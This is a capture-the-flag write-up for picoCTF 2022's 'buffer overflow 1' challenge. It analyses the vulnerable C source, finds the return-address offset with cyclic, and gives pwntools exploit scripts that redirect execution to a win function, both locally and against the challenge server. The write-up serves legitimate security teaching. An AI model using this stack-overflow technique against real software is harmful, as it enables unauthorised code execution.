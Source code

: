 # buffer overflow 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2022, Binary Exploitation
Author: SANJAY C / PALASH OSWAL

Description:
Control the return address

Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 64722

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.
```
Challenge link: [https://play.picoctf.org/practice/challenge/258](https://play.picoctf.org/practice/challenge/258)

## Solution

### Analyze the given files

Let's start by looking at the given files. First the C source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
We have a `main` function that calls a `vuln` function that is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) due to the unbounded `gets` call. If we input more than `BUFSIZE`, that is 32 characters/bytes, we can overwrite the return address on the stack to call the `win` function instead of returning to `main`.

The `vuln` file is a 32-bit ELF binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ file vuln        
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

### Manually identifying the offset

Next, we need to identify the offset on the stack to the return address from `vuln`. If we send a specific sequence of characters that is a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) we can easily calculate the offset to the memory address. 

Creation of such a sequence can be done with [pwntools](https://docs.pwntools.com/en/stable/index.html) `cyclic` or [metasploit's](https://www.metasploit.com/) `msf-pattern_create`.

And the lookup of the offset can then be done with `cyclic` or `msf-pattern_offset`.

Let's create a string that is a bit longer than `32` bytes. Let's go for 100.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100   
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100 > pattern_100.txt
```

Then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ cat pattern_100.txt | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                cat pattern_100.txt | 
zsh: segmentation fault  ./vuln
```

The returned value is `0x6161616c`. Lets look this up
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x6161616c  
44
```

So the offset on the stack to the return address is `44` bytes.

### Get the addess of the win function

Now we need to find out the virtual address of the `win` function.  
This can be done with `objdump`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ objdump -t vuln | grep win
080491f6 g     F .text  0000008b              win
```

Or with `gdb`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ gdb -batch -ex 'info functions' vuln | grep win
0x080491f6  win
```
So the address to `win` is `0x080491f6`.

### Write an exploit

Let's write a small exploit in Python with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html)
```python
#!/usr/bin/python

from pwn import *
import sys

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

win = p32(0x080491f6)      # Address to win function
payload = padding*offset + win
    
sys.stdout.buffer.write(payload)
```

Note that I used `sys.stdout.buffer.write` here rather than `print`.  
`print` will most likely UTF-8 encode your output and it won't work!

And then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ echo "picoCTF{fake_flag}" > flag.txt          

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{fake_flag}
zsh: done                ~/python_venvs/pwntools/bin/python local_exploit.py | 
zsh: segmentation fault  ./vuln
```
It works, but later the program crashes due to un invalid memory address after the `win` function.  
We can ignore this.

### Get the flag

Let's modify the Python script to connect to the server instead
```python
#!/usr/bin/python

from pwn import *

SERVER = 'saturn.picoctf.net'
PORT = 64722

io = remote(SERVER, PORT)

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

win = p32(0x080491f6)      # Address to win function
payload = padding*offset + win
    
sys.stdout.buffer.write(payload)
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py             
[+] Opening connection to saturn.picoctf.net on port 64722: Done
[+] Receiving all data: Done (127B)
[*] Closed connection to saturn.picoctf.net port 64722
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [gdb - Linux manual page](https://man7.org/linux/man-pages/man1/gdb.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
- [Wikipedia - de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
